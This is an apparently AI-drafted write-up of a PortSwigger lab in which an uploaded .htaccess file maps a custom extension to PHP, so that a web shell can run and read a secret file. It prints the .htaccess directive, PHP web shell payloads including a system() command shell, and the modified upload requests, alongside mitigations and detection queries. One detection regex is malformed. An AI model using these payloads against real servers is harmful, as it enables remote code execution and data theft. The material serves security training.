

Here's a **professional, detailed GitHub-style write-up** for the Practitioner-level lab you solved.

---

# Lab: Web Shell Upload via Extension Blacklist Bypass

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Practitioner  
**Lab Link:** [Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

**Given credentials:** `wiener:peter`

---

## Executive Summary

The lab contains an avatar upload functionality with a **blacklist of dangerous file extensions** (e.g., `.php`). However, due to an **incomplete blacklist and Apache-specific misconfiguration**, an attacker can:

1. Upload a malicious `.htaccess` file to map a custom extension (`.l33t`) to the PHP MIME type
2. Upload a PHP web shell with the `.l33t` extension
3. Execute the web shell to read `/home/carlos/secret`

The vulnerability stems from **allowing upload of `.htaccess` files** combined with the server running **Apache with mod_php**.

---

## Technical Details

### Environment
- **Web Server:** Apache (identified via `Server` header in responses)
- **PHP Module:** mod_php (executes PHP files)
- **Upload Directory:** `/files/avatars/`
- **Blacklisted Extensions:** Includes `.php`, among others (but not `.htaccess` or `.l33t`)

---

## Exploitation Steps

### Phase 1: Reconnaissance

1. Logged in as `wiener:peter`
2. Uploaded a legitimate image as avatar
3. Observed image accessible via `GET /files/avatars/<IMAGE>`
4. Sent this GET request to Burp Repeater for later use

**Identified server software** from response headers:
```
Server: Apache/2.4.41 (Ubuntu)
```

This is critical — Apache allows per-directory configuration via `.htaccess` files.

---

### Phase 2: Blacklist Probing

Created `exploit.php`:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Attempted upload → server rejected with:
> "You are not allowed to upload files with a .php extension"

The blacklist includes `.php` but may miss other dangerous file types like `.htaccess`.

---

### Phase 3: Upload Malicious .htaccess

Located `POST /my-account/avatar` request in Burp Proxy history → sent to Repeater.

**Original request body (truncated):**
```
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

**Modified request:**
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t
```

**Explanation of modifications:**

| Field | Original | Modified | Why |
|-------|----------|----------|-----|
| `filename` | `exploit.php` | `.htaccess` | Upload Apache config file instead of PHP |
| `Content-Type` | `application/x-php` | `text/plain` | `.htaccess` is plain text |
| File content | PHP code | `AddType application/x-httpd-php .l33t` | Tells Apache to execute `.l33t` files as PHP |

**Result:** Server accepted `.htaccess` upload (not in blacklist).

Effect on server: Any file with the `.l33t` extension in this directory (or subdirectories) will now be executed as PHP by mod_php.

---

### Phase 4: Upload Web Shell with New Extension

Returned to original `POST /my-account/avatar` request in Repeater (using back arrow).

**Modified request:**
```
Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

**Changes:**
- `filename="exploit.l33t"` (from `exploit.php`)
- Kept PHP payload identical

**Result:** Server accepted the upload since `.l33t` is not blacklisted.

---

### Phase 5: Execute Web Shell

In the previously saved GET request tab (for the legitimate image):

**Original:**
```
GET /files/avatars/legitimate-image.jpg
```

**Modified:**
```
GET /files/avatars/exploit.l33t
```

**Result:** The `.htaccess` directive forced Apache to execute `exploit.l33t` as PHP, returning:

```
<contents of /home/carlos/secret>
```

---

### Phase 6: Submit Secret

Copied the secret value and submitted via the lab banner button.

**Lab solved.**

---

## Attack Chain Diagram

```
1. Upload .htaccess
   └── Maps .l33t → PHP

2. Upload exploit.l33t
   └── Contains PHP web shell

3. Request exploit.l33t via GET
   └── Server executes as PHP
       └── Reads /home/carlos/secret
           └── Returns secret in response
```

---

## Root Cause Analysis

| **Vulnerability** | **Why it exists** |
|-------------------|-------------------|
| **Blacklist approach** | Attackers can use extensions not in the list (`.htaccess`, `.l33t`) |
| **.htaccess upload allowed** | Critical misconfiguration — `.htaccess` can change server behavior |
| **No file content validation** | Server didn't inspect that `.htaccess` contained dangerous directives |
| **Apache + mod_php** | Makes the `.l33t` → PHP mapping effective |
| **Files stored in web-accessible directory** | Direct URL access to uploaded files |

---

## Impact Assessment

| Impact | Severity |
|--------|----------|
| Remote Code Execution (RCE) | **Critical** |
| Full server compromise | **Critical** |
| Data exfiltration (sensitive files) | **High** |
| Pivot to internal network | **High** |

With a more powerful web shell (e.g., `<?php system($_GET['cmd']); ?>`), an attacker could:
- Read/write any file
- Execute system commands
- Install malware or backdoors
- Use the server for further attacks

---

## Mitigation Recommendations

### 1. Use Whitelist, Not Blacklist

**Bad (current):**
```php
$blacklist = ['php', 'asp', 'jsp', 'exe'];
```

**Good:**
```php
$whitelist = ['jpg', 'jpeg', 'png', 'gif'];
```

### 2. Prevent .htaccess Uploads

Add `.htaccess` to the blacklist or (better) block all files starting with a dot:

```php
if (strpos($filename, '.') === 0) {
    reject(); // Hidden files
}
```

### 3. Validate File Content

Check magic bytes / file signatures:

```php
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime = finfo_file($finfo, $uploadedFile);
if (!in_array($mime, ['image/jpeg', 'image/png'])) {
    reject();
}
```

### 4. Rename Uploaded Files

Don't use user-supplied filenames:

```php
$newName = bin2hex(random_bytes(16)) . '.jpg';
move_uploaded_file($tmp, $uploadDir . $newName);
```

### 5. Disable .htaccess Overrides

In Apache configuration:

```apache
<Directory /var/www/html/uploads>
    AllowOverride None
</Directory>
```

This prevents `.htaccess` files from having any effect.

### 6. Store Uploads Outside Web Root

```php
// Bad: /var/www/html/uploads/
// Good: /var/www/uploads/ (not directly accessible via URL)
```

### 7. Disable Script Execution in Upload Directory

**Apache (.htaccess inside uploads directory):**
```apache
php_flag engine off
```

**Nginx:**
```nginx
location /uploads/ {
    location ~ \.(php|phar|phtml)$ {
        return 403;
    }
}
```

---

## Tools Used

| Tool | Purpose |
|------|---------|
| Burp Suite Professional | Intercept and modify requests (Proxy, Repeater) |
| Web browser | Initial navigation and login |
| PHP | Web shell payload |

---

## Indicators of Compromise (IoCs)

| Type | Value |
|------|-------|
| Uploaded file | `.htaccess` with `AddType application/x-httpd-php .l33t` |
| Uploaded file | `exploit.l33t` with PHP payload |
| Suspicious extension | `.l33t` (not a standard image extension) |
| Request pattern | POST to `/my-account/avatar` with non-image MIME types |

Detection rules:

```sql
-- Detect .htaccess uploads
SELECT * FROM upload_log WHERE filename = '.htaccess';

-- Detect unusual extensions
SELECT * FROM upload_log WHERE filename REGEXP '\.[^jpg|jpeg|png|gif]+$';
```

---

## Remediation Verification

Test after fixes:

1. ✅ Attempt to upload `.htaccess` → blocked
2. ✅ Attempt to upload `test.php` → blocked  
3. ✅ Attempt to change `Content-Type` → image validation still prevents PHP
4. ✅ Upload valid `test.jpg` → renamed randomly, served with correct MIME type
5. ✅ Upload directory has `AllowOverride None`

---

## References

- [PortSwigger: File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP: Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Apache: .htaccess files](https://httpd.apache.org/docs/current/howto/htaccess.html)
- [Apache: AddType directive](https://httpd.apache.org/docs/2.4/mod/mod_mime.html#addtype)

---

## Lessons Learned

1. **Blacklists are insufficient** — always use whitelists for file extensions
2. **`Content-Type` header is client-controlled** — never trust it without validation
3. **Apache + mod_php + `.htaccess` uploads** = critical RCE vector
4. **File upload functionality** requires defense in depth:
   - Whitelist extensions
   - Validate MIME types server-side (magic bytes)
   - Rename files
   - Store outside web root
   - Disable script execution in upload directories

---

**Prepared by:** Tsegazeab Fikre  
**Date:** 27Apr 2026  
**Classification:** Educational / CTF Write-up

---

This write-up demonstrates the importance of **defense in depth** and why **blacklist-based filtering is inherently dangerous**, especially when combined with Apache's `.htaccess` capabilities.

